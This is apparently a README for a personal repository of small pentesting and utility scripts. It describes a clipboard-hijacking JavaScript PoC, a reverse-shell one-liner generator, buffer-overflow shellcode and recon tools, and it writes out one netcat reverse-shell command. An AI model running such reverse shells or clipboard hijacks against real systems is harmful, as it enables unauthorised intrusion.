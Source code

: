 # tidbits
Collection of small miscellaneous and/or interesting stuff that I might need again

### MaliciousCopyPaste.html
Small javascript PoC to hijack victims clipboard when they copy from site.

### RPyCenum.py
Script to pull some info out of RPC services. Written ages ago to deal with an HTB box that closed connections very quickly, cant remember which.

### bof\_bad\_chars\_skeleton.py
Mainly just offers a lazy way to generate string of all characters for bad char checking  
Also has a short /bin/sh shellcode because it is handy

### crtsh\_search.py
Feed in a domain as an argument and it will search it on crt.sh, returning a list of all unique subdomains in the response

### instagrabber.py
Quickly written script that scrapes images from specified instagram account. Very basic, no error checking, doesnt dl videos or stories.

```
usage: instagrabber.py [-h] [-u USER] [-s SESSIONID] [-o OUT]

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER  unique profile name of account to scrape
  -s SESSIONID, --sessionid SESSIONID
                        session id cookie value
  -o OUT, --out OUT     folder to save images
```

### rsg.sh
Usage: `./rsg.sh <LHOST> <LPORT>`
  
A simple bash script to take input and output a bunch of reverse shell 1-liners. Not very original but here we go.   
Note: Does not include super basic cmds such as `nc -e /bin/sh 10.10.10.10 1337`

### sort_domains.py
Reads in a file containing a list of domains and prints them properly sorted to stdout
